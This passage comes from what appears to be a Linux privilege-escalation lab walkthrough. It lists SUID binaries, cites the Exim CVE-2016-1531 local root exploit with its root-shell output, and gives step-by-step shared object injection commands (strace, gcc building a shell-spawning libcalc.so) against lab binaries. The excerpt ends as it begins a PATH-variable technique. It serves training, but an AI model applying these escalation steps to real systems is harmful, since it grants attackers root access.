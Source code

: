 ```
-rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
-rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
-rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
-rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
-rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
-rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
-rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs
```

Search for Exim 4.84 in https://exploit-db.com

https://www.exploit-db.com/exploits/39535

```
$ ./cve-2016-1531.sh 
[ CVE-2016-1531 local root exploit
sh-4.1# id
uid=0(root) gid=1000(user) groups=0(root)
```

### SUID / SGID Executables - Shared Object Injection

The /usr/local/bin/suid-so SUID executable is vulnerable to shared object injection.

First, execute the file and note that currently it displays a progress bar before exiting:

`/usr/local/bin/suid-so`

Run strace on the file and search the output for open/access calls and for "no such file" errors:

`strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`

Note that the executable tries to load the /home/user/.config/libcalc.so shared object within our home directory, but it cannot be found.

Create the .config directory for the libcalc.so file:

`mkdir /home/user/.config`

Example shared object code can be found at /home/user/tools/suid/libcalc.c.
It simply spawns a Bash shell. Compile the code into a shared object at
the location the suid-so executable was looking for it:

`gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c`

Execute the suid-so executable again, and note that this time, instead of a progress bar, we get a root shell.

`/usr/local/bin/suid-so`

### SUID / SGID Executables - Environment Variables

The /usr/local/bin/suid-env executable can be exploited due to it inheriting the
user's PATH environment variable and attempting to execute programs without specifying an absolute path.
